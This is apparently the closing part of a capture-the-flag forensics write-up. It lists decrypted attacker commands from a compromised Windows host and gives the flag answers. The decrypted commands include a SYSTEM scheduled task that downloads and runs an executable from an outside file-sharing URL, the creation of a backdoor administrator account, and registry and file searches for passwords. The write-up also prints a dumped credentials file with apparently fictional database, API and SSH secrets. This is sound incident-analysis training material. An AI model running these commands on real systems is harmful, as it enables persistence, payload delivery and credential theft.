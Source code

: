 
## Decrypted Output

```
Decrypted Message: whoami /priv
Decrypted Message: tasklist /v
Decrypted Message: wmic qfe get Caption,Description,HotFixID,InstalledOn
Decrypted Message: schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM
Decrypted Message: net user devsupport1 P@ssw0rd /add
Decrypted Message: net localgroup Administrators devsupport1 /add
Decrypted Message: net localgroup Administrators devsupport1 /add
Decrypted Message: reg query HKLM /f "password" /t REG_SZ /s
Decrypted Message: dir C:\ /s /b | findstr "password"
Decrypted Message: dir C:\ /s /b | findstr "password"
Decrypted Message: more "C:\Users\dev-support\AppData\Local\BraveSoftware\Brave-Browser\User Data\ZxcvbnData\3\passwords.txt"
Decrypted Message: more C:\backups\credentials.txt
```

### Leaked Credentials

```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0

[Game API]
host=api.korptech.net
api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
host=dev-build.korptech.net
username=devops
password=BuildServer@92|7Gy1lz'Xb
port=2022

C:\Users\dev-support\Desktop>
```

## Step 6: Final Flag Answers

After decrypting the messages, we determined the following:

**Q5:** The scheduled task created by the attacker is named `Synchronization`.

**Q6:** The API key was leaked from the file C:\backups\credentials.txt: `sk-3498fwe09r8fw3f98fw9832fw`
